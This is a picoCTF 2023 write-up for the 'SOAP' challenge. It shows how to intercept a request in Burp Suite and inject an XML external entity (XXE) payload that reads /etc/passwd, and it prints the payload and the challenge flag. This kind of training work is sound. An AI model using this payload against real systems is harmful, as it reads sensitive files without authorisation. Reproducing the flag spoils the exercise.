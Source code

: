 # SOAP
## Overview
100 points

picoCTF 2023
## Description
The web project was rushed and no security assessment was done. Can you read the /etc/passwd file?
### Hints
XML external entity Injection

## Solution
To access the flag, we need to modify the XXE payload to exploit the vunerability. We can do this through Burp Suite.
<br>
We can easily find the XML using the Intercept tab in Burp Proxy, and it currently looks like this:
```html
<?xml version="1.0" encoding="UTF-8"?><data><ID>2</ID></data>
```
We will modify it to look like this:
```html
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
<data><ID>&xxe;</ID></data>
```
Forwarding the request makes the flag appear at the bottom of the website :D
<br><br>
<img width="1127" alt="image" src="https://github.com/xoxo-ily/ctfWriteups/assets/68173773/db0d6d0e-4001-4e2b-8885-4cd4956a1b90">

# picoCTF{XML_3xtern@l_3nt1t1ty_540f4f1e}
## Resources used
[portswigger xxe tutorial](https://portswigger.net/web-security/xxe)
